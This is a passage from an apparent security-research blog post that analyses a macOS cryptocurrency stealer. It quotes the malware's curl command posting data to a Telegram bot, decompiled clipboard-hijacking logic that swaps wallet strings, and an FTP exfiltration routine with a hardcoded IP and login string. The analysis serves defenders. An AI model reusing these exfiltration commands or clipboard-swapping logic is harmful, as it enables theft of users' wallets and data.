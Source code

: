 ```
curl -m %d -s -X POST -H \'Content-Type: application/json\' -d \'%s\' \'https://api.telegram.org/bot%s/sendMessage\'
```

The `monitorClipboard` method is interesting. Its disassembly reveals it uses an open-source [clipboard](https://github.com/atotto/clipboard) library to monitor the victims clipboard. As items are placed on the clipboard the malware invokes a `isValidPrivateKey` method to see if the item is a private key. If so, as noted by another researcher, Alden, who [also analyzed the malware](https://alden.io/posts/cloudchat-returns/), “_\[the malware\] will replace the clipboard contents with an attacker controlled wallet string_”:

```
while (true) {
    rax_1 = github.com/atotto/clipboard.readAll(...);
    ...

    if(main.isValidPrivateKey(...)) {

        main.replaceAddresses(...);
        github.com/atotto/clipboard.writeAll(...);
    }
}
```

The downloaded binary (`.Safari_V8_config`) also, as is common to many stealers, looks for common cryptocurrency wallets. Specifically, it looks for those that are implemented as Chrome extensions. Any such cryptocurrency wallets are compressed and exfiltrated. Rather unusually, the exfiltration is done via FTP:

```
main.uploadLogsdata() {
    ...
    char* var_50 = "--ftp-create-dirs"
    char* var_30 = "mars:LnW4BhIdjOsVZzK0"
    void* var_20 = "ftp://45.77.179.89/upload/encoun…";
    ...

    os/exec.(*Cmd).Run(_os/exec.Command(..., "curl", ...);
}
```

Details about the remaining new macOS malware, be appended to this blog post each day!

### 💕 Support:

Love these blog posts? You can support them via my [Patreon](https://www.patreon.com/bePatron?c=701171) page![![Image 48](https://objective-see.org/images/patreon.png)](https://www.patreon.com/bePatron?c=701171)

